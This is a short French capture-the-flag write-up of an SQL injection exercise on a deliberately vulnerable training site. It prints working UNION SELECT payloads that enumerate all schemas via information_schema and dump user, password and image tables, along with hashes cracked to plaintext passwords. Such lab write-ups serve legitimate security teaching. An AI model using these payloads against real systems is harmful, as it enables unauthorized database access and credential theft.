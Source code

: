 # 08 SQL Injection

- On est allés sur la page members
- On a testé de mettre un peu n'importe quoi dans le champ
- On se retrouve avec une erreur de db "Unknown column 'asfasfsa' in 'where clause'"
- On esssaie alors de faire des injections
- On utilise ce pattern `1 Union ...` pour récuperer plus d'infos
- A l'aide de cette commande `1 UNION SELECT CONCAT(0x7c,table_schema,0x7c,table_name,0x7c), column_name FROM information_schema.columns`
on récupère l'intégralité des bases de données, tables et colonnes
- On remarque alors que la table `Member_Sql_Injection` contient plus de champs que ce qui est affiché lors d'une requete normale
- On recupere alors tous les champs de tous les users avec cette requete `1 UNION SELECT CONCAT(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign), null FROM Member_Sql_Injection.users`
- On constate ces valeurs
"
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28
"
- On passe le mdp dans un detecteur de hash puis dehasheur md5 -> FortyTwo
- On suit le reste des consignes
- Et hop, flag


## Annexe

Lors de notre aventure, nous avons constaté une db du nom de `Member_Brute_Force`
Par curiosité on a donc fait la requete suivante dessus

```
1 UNION SELECT CONCAT(id, 0x0a, username, 0x0a, password), null FROM Member_Brute_Force.db_default`
```

On a déhashé les mots de passe, ce qui donne le mdp `shadow` pour l'admin et root
Ça ne va pas nos empecher de faire ça "comme il faut", par le bruteforce quoi.

1 UNION SELECT CONCAT(id, 0x0a, url, 0x0a, title, 0x0a, comment), null FROM Member_images.list_images
